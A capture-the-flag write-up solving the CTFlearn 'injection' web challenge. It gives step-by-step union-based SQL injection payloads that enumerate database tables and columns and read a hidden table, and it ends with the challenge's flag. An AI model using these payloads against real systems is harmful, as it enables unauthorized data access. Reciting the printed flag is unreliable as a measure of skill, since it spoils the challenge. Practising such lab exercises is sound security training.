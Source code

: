 ## injection
The main idea finding the flag is get flag using progressive SQL exploits to get into database.

#### Step-1:
After I visited https://web.ctflearn.com/web8/, the following is the list of commands that I input one by one to get the flag. Its progressive and you have to do it by checking corresponding tables and corresponding columns simultaneously.

#### Step-2:
Commands:

```sql
1 union select 1,2,3,4 #
1 union select table_name,2,3,4 from information_schema.tables #
```

After these, we find `w0w_y0u_f0und_m3` table to access it.

#### Step-3:

```sql
1 union select table_name,column_name,3,4 from information_schema.columns #
```
This gives us a column called `f0und_m3`.

This gives us last command.

```sql
1 union select f0und_m3,2,3,4 from w0w_y0u_f0und_m3 #
```

![Image](https://github.com/user-attachments/assets/66e13bb3-201e-473c-bfe1-229718efd155)

#### Step-4:
Finally the flag becomes: 
`abctf{uni0n_1s_4_gr34t_c0mm4nd}`
